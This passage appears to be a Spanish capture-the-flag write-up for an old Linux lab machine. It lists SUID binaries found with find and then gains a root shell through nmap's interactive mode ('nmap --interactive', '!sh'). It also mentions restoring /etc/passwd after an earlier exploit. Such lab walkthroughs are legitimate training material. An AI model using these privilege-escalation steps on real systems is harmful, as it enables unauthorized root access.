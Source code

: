 _NOTA:_ Sigue la recomendación del exploit "DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd" para restablecer los usuarios de la máquina.

## ESCALADA DE PRIVILEGIOS POR PERMISOS

Ahora vamos a realizar el escalamiento de privilegios revisando los permisos en la máquina.

```bash
daemon@lame:/tmp$ find / -perm /4000 2>/dev/null                                        
  /bin/umount
  /bin/fusermount
  /bin/su
  /bin/mount
  /bin/ping
  /bin/ping6
  /sbin/mount.nfs
  /lib/dhcp3-client/call-dhclient-script
  /usr/bin/sudoedit
  /usr/bin/X
  /usr/bin/netkit-rsh
  /usr/bin/gpasswd
  /usr/bin/traceroute6.iputils
  /usr/bin/sudo
  /usr/bin/netkit-rlogin
  /usr/bin/arping
  /usr/bin/at
  /usr/bin/newgrp
  /usr/bin/chfn
  /usr/bin/nmap
  /usr/bin/chsh
  /usr/bin/netkit-rcp
  /usr/bin/passwd
  /usr/bin/mtr
  /usr/sbin/uuidd
  /usr/sbin/pppd
  /usr/lib/telnetlogin
  /usr/lib/apache2/suexec
  /usr/lib/eject/dmcrypt-get-device
  /usr/lib/openssh/ssh-keysign
  /usr/lib/pt_chown
  /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
  /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
```

Podemos ver que tenemos permiso de ejecución en `/usr/bin/nmap`, así que buscamos en [GTFObins](https://gtfobins.github.io/gtfobins/nmap/#shell) como obtener una shell por este medio.

```bash
  daemon@lame:/tmp$ nmap --interactive
  nmap --interactive
  
  Starting Nmap V. 4.53 ( http://insecure.org )
  Welcome to Interactive Mode -- press h <enter> for help
  nmap> !sh
  !sh
  sh-3.2# whoami
  whoami
  root
```
